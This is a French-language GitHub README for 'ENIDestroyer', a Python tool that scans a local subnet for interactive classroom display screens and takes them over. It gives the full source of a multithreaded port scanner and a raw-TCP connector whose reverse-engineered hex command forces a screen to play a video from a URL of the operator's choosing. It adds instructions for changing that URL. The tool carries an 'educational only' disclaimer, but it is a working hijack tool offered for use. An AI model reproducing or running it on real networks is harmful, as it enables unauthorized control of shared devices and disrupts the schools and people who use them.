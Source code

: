 # 🖥️ ENIDestroyer

## Introduction
**ENIDestroyer** est un outil d'analyse réseau et de contrôle à distance spécialisé dans la connexion simultanée aux Écrans Numériques Interactifs (ENI). Ce programme permet de scanner un réseau local, d'identifier les ENI accessibles, puis d'établir des connexions pour diffuser du contenu média.

## ⚠️ Avertissement
Ce programme est fourni à des fins éducatives uniquement. L'auteur décline toute responsabilité quant à son utilisation. Cet outil est :
- Très spécifique dans son fonctionnement
- Peu flexible
- À utiliser uniquement dans des environnements contrôlés et avec autorisation

## 🔧 Prérequis
- Python 3.x
- Un serveur web local pour héberger les médias

## 📋 Installation
```bash
# Cloner le dépôt
git clone https://github.com/Arthur-91140/ENIDestroyer.git

# Accéder au répertoire
cd ENIDestroyer
```

## 🚀 Utilisation

### 1. Configuration
- Configurez le sous-réseau à analyser (par défaut: `172.16.30.0/24`)
- Préparez un serveur web contenant les médias à diffuser
- Définissez l'URL du média dans le script principal

### 2. Lancement

```bash
python LAN-WLAN-Scan.py
```
Puis...
```bash
python Request-Sender.py
```

### 3. Options d'optimisation
- Pour accélérer le processus, vous pouvez sauter l'étape de scan en important directement un fichier `ipv.csv` généré par Nmap
- Format attendu pour `ipv.csv`:
  ```
  IP,Open Ports
  172.16.30.50,20121
  172.16.30.51,"20121, 20194"
  ```

## 🛠️ Code source et fonctionnalités

### Module de scan réseau (`network_scanner.py`)

```python
import socket
import csv
import ipaddress
from concurrent.futures import ThreadPoolExecutor

def scan_port(ip_port_tuple):
    ip, port = ip_port_tuple
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            result = sock.connect_ex((ip, port))
            if result == 0:
                return ip, port
    except socket.error:
        return None

def scan_ports(ip, ports):
    ip_port_tuples = [(ip, port) for port in ports]
    
    with ThreadPoolExecutor(max_workers=20) as executor:
        results = list(executor.map(scan_port, ip_port_tuples))
    
    open_ports = [port for result in results if result for ip, port in [result]]
    return open_ports

def main():
    subnet = "172.16.30.0/24"
    ports_to_scan = [20121, 20194]
    output_file = "ipv.csv"
    
    with open(output_file, 'w', newline='') as csvfile:
        fieldnames = ['IP', 'Open Ports']
        writer = csv.DictWriter(csvfile, fieldnames=fieldnames)
        writer.writeheader()
        network = ipaddress.ip_network(subnet)
        for ip in network.hosts():
            ip_str = str(ip)
            print(f"Scanning IP: {ip_str}...")
            open_ports = scan_ports(ip_str, ports_to_scan)
            if open_ports:
                writer.writerow({'IP': ip_str, 'Open Ports': ', '.join(map(str, open_ports))})
                print(f"Found open ports {', '.join(map(str, open_ports))} on {ip_str}")
    print("Scan completed. Results saved in ipv.csv")

if __name__ == "__main__":
    main()
```

### Module de connexion ENI (`eni_connector.py`)

```python
import socket

# Définir les détails de la connexion
host = '172.16.30.50'
port = 20121

# Créer une socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    # Se connecter au serveur
    s.connect((host, port))
    
    # Définir la nouvelle requête en tant que chaîne hexadécimale lisible
    hex_request = "257c770600000000000004d2010000000780000004384465736b74706f702d5635374c31305309290000342e352e35040d01000400000004640000040000000400000004004c01002e4a01007765622d3e687474703a2f2f3137322e31362e33302e392f566964656f2f47616d65706c61792e6d7034300400000004000000044a0006044c01020421010004010101"
    request = bytes.fromhex(hex_request)
    
    # Envoyer la nouvelle requête
    s.sendall(request)
    
    # Recevoir la réponse du serveur (si nécessaire)
    response = s.recv(1024)
    print("Réponse du serveur:", response)
```

## 📊 Fonctionnement détaillé

1. **Scan réseau** (`LAN-WLAN-Scan.py`):
   - Parcourt toutes les adresses IP du sous-réseau spécifié (`172.16.30.0/24` par défaut)
   - Vérifie les ports 20121 et 20194 pour chaque adresse IP
   - Enregistre les résultats dans un fichier CSV (`ipv.csv`)
   - Utilise `ThreadPoolExecutor` pour effectuer plusieurs scans en parallèle

2. **Connexion aux ENI** (`Request-Sender.py`):
   - Établit une connexion TCP à l'IP et au port spécifiés
   - Envoie une commande formatée en hexadécimal pour contrôler l'ENI
   - La commande contient des informations sur le média à diffuser
   - Capture la réponse du serveur pour vérification

3. **Analyse de la commande hexadécimale**:
   - `257c7706...` : Séquence d'en-tête du protocole
   - `...7765622d3e687474703a2f2f3137322e31362e33302e392f566964656f2f47616d65706c61792e6d7034...` : Contient l'URL du média encodée
   - Le reste de la séquence contient des paramètres de configuration

## 🔍 Explications supplémentaires

### Détail du scanner réseau
Le scanner utilise une approche multithreading pour accélérer les scans:
- Chaque IP est testée pour vérifier si les ports spécifiés sont ouverts
- Les résultats sont enregistrés uniquement si au moins un port est ouvert
- Le format CSV permet une exploitation facile des résultats

### Détail de la connexion ENI
La connexion utilise un protocole propriétaire:
- La socket TCP est créée et connectée à l'ENI
- La commande hexadécimale est envoyée pour configurer l'affichage
- Changez l'URL dans la commande hexadécimale pour diffuser un média différent

## 🛡️ Sécurité et bonnes pratiques
- Utilisez ce programme uniquement sur des réseaux dont vous êtes propriétaire
- Vérifiez toujours les autorisations avant de scanner un réseau
- Assurez-vous que le contenu diffusé est approprié et légal
- Limitez l'utilisation aux environnements de test ou de démonstration

## 📚 Références
- Documentation des protocoles ENI
- Rétro-Ingénierie par scan réseau intensif

## Authors
- [Arthur Pruvost Rivière](https://github.com/Arthur-91140) 
